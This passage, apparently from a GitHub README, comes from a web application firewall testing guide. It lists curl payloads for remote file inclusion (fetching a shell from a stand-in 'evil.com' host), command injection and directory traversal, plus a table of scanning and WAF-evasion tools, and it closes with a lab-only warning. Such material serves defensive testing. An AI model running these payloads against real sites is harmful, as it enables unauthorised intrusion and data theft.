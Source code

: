 #### 🔸 4. Remote File Inclusion (RFI)

```bash
curl "https://target.com/include.php?file=http://evil.com/shell.txt"
```

#### 🔸 5. Command Injection

```bash
curl "https://target.com/ping.php?host=127.0.0.1;id"
```

#### 🔸 6. Directory Traversal

```bash
curl "https://target.com/download.php?file=../../../../windows/win.ini"
```

---

#### 🛡️ Useful Tools for WAF Simulation

| 🧰 Tool        | 🌐 Description                                                                 |
| -------------- | ------------------------------------------------------------------------------ |
| **WAFNinja**   | WAF evasion and bypass fuzzing tool: payloads for SQLi, XSS, RFI, LFI, etc.    |
| **Burp Suite** | Intercept, modify, and replay HTTP requests; great for manual WAF testing      |
| **OWASP ZAP**  | Open-source scanner for automatic attack simulation and WAF detection          |
| **Nikto**      | Scans for vulnerable files/CGIs, outdated servers, and WAF-detectable patterns |
| **Commix**     | Tool for testing command injection vulnerabilities                             |
| **sqlmap**     | Powerful automation tool to test SQLi and evade WAF protections                |
| **Metasploit** | Framework for advanced payload generation and WAF bypass tests                 |
| **hping3**     | Craft custom TCP/IP packets for testing rate limits, flood protections         |

---

#### 📝 **Note:** Always test in a **controlled lab or approved staging environment**. Never attack production or third-party systems without permission.


